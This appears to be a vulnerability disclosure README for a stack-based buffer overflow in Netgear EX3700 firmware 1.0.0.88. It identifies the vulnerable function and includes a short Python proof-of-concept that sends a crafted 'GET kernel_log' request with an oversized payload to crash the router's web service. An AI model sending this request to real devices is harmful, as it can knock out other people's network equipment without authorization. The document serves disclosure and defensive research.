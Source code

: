 # Overview
Details of the vulnerability found in the netgear router ex3700.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| ex3700    | 1.0.0.88    | https://www.downloads.netgear.com/files/GDC/EX3700/EX3700_EX3800-V1.0.0.88_1.0.58.zip   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function sub_41619C at offset 0x0041691C, where the strcat function is called without proper bounds checking. A specially crafted GET request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- The vulnerability is triggered during the parsing of a user's GET request when the request header contains `GET kernel_log`.
![second](./assets/2.png)
- Since the program uses `memset(&v26[6], 0, 94);`, the maximum size of the v26 buffer is effectively limited to 100 bytes. Therefore, if the data following the GET request exceeds this limit, a stack-based buffer overflow can occur.


# POC
## python script
```python
import socket

host = "172.17.0.7"
port = 80
file = "../crashes/id1"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## id1

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
GET kernel_log.s:GEToEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEE%EEEEEEEEEEEEEEEEEE  wLG_wifi_sc}e_set.htm 3


```

# Vulnerability Verification Screenshot
##  ex3700
![3.png](./assets/3.png)

# Discoverer
m202472188@hust.edu.cn
